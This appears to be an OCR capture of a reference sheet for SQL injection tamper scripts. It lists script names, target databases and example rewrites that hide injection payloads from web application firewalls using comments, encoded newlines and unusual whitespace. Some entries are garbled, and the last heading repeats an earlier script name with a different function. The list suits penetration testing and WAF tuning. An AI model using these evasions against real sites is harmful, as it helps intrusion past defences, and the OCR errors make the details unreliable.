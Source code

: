 Function: INSERT ==> I/**/N/**/SERT
Platform: Mysql
example
~~~
INSERT ==> I / ** / N / ** / SERT
~~~
## securesphere.py
Function: 1 AND 1=1 ==> 1 AND 1=1 and ‘0having’=’0having’
Platform: All
example
~~~
1 AND 1=1 ==> 1 AND 1=1 and ‘0having’=’0having’
~~~
## sp_password.py
Function: Space ==> sp_password
Platform: Mssql
example
~~~
1 AND 9227=9227 — ==> 1 AND 9227=9227 — sp_password
~~~
## space2comment.py
Function: Space ==> /**/
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
SELECT id FROM users ==> SELECT/**/id/**/FROM/**/users
~~~
## space2dash.py
Function: Space==> -nVNaVoPYeva% 0A
Platform:MSSQL、SQLite
example
~~~
1 AND 9227=9227 ==> 1 — nVNaVoPYeva%0AAND — ngNvzqu%0A9227=9227
~~~
## space2hash.py
Function: Space ==> %23nVNaVoPYeva%0A
Platform: MySQL 4.0, 5.0
example
~~~
1 AND 9227=9227 ==> 1%23nVNaVoPYeva%0AAND%23ngNvzqu%0A9227=9227
~~~
## space2morehash.py
Function: Space ==> %23ngNvzqu%0A
Platform: MySQL 5.1.41
example
~~~
1 AND 9227=9227 ==> 1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227
~~~
## space2mssqlblank.py
Function: Space ==> %0E
Platform: Mssql 2000,2005
example
~~~
SELECT id FROM users ==> SELECT%0Eid%0DFROM%07users
~~~
## space2mssqlblank.py
Function: Space ==> %23%0A
Platform: Mssql、Mysql